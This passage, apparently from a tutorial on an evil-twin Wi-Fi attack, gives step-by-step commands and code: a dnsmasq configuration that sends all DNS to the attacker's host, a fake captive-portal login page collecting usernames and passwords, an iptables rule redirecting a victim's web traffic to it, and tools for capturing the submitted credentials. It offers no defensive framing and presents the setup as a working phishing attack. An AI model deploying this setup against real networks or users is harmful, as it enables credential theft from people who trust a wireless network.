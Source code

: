 Create `dnsmasq.conf`:

```bash
interface=at0
dhcp-range=10.0.0.10,10.0.0.50,12h
dhcp-option=3,10.0.0.1
dhcp-option=6,10.0.0.1
address=/#/10.0.0.1
```

Run:

```bash
sudo dnsmasq -C dnsmasq.conf
```

---

#### 🔹 Step 7: Create Captive Portal (Fake Login)

Create a simple HTML login page (e.g., `index.html`):

```html
<h1>Login to Continue</h1>
<form method="POST">
  <input type="text" name="username" placeholder="Username"/><br>
  <input type="password" name="password" placeholder="Password"/><br>
  <input type="submit" value="Login"/>
</form>
```

Host it with Python:

```bash
sudo python3 -m http.server 80
```

Or use a full phishing toolkit like `wifiphisher`.

---

#### 🔹 Step 8: Redirect HTTP Traffic to Captive Portal

```bash
sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination 10.0.0.1:80
```

Now when the victim connects, any web traffic will hit your fake page.

---

#### 🔹 Step 9: Monitor Captured Credentials

* If using `index.html` with POST, capture it using:

  * `tcpdump`
  * `Burp Suite`
  * A custom backend (e.g., Flask server)

---
